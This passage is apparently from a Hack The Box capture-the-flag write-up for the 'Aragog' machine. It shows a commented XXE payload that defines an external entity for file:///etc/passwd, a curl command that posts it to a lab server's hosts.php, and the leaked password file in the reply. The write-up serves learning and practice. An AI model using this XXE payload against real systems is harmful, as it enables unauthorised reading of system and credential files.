 We can craft XML to attempt to exploit an XXE vulnerability to read the contents of /etc/passwd.  I added some comments so we can see what is going on.
```xml
<!--
    !DOCTYPE starts the document type declaration.  Normally, this is used to define a list of permitted elements and attributes (a grammar, or set of rules) in the document's structure.
    Document Type Declarations (DTDs) are the predecessor to XML namespaces.

    In this example, we define a DTD for subnet_mask since we know that hosts.php makes use of that element.  We are telling the XML parser that the subnet_mask element is of any type.
    We are also telling the XML parser that the subnet_mask element has a subelement called xxe that is an alias for /etc/passwd.
-->
<!DOCTYPE subnet_mask [
<!ELEMENT subnet_mask ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>

<!--
    The rest of the document models the test.txt we sent to the server before.  Instead of a legitimate subnet mask,
    we will specify a reference for the xxe sub-element we defined above.  We reference entities / sub-elements by putting
    an ampresand in front of its name and a semi-colon after its name.  This is similar to C / C++.

    For the test element, it does not seem to matter what we put in there.
-->
<details>
    <subnet_mask>&xxe;</subnet_mask>
    <test>abcd</test>
</details>
```

I named the file test_xxe.xml.  We will send it to hosts.php in the same way we sent test.txt:
```bash
root@kali:~/ctf/hackthebox/aragog# curl -X POST -d @test_xxe.xml "http://10.10.10.78/hosts.php"

There are 4294967294 possible hosts for root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
syslog:x:104:108::/home/syslog:/bin/false
_apt:x:105:65534::/nonexistent:/bin/false
messagebus:x:106:110::/var/run/dbus:/bin/false
uuidd:x:107:111::/run/uuidd:/bin/false
lightdm:x:108:114:Light Display Manager:/var/lib/lightdm:/bin/false
whoopsie:x:109:117::/nonexistent:/bin/false
avahi-autoipd:x:110:119:Avahi autoip daemon,,,:/var/lib/avahi-autoipd:/bin/false
```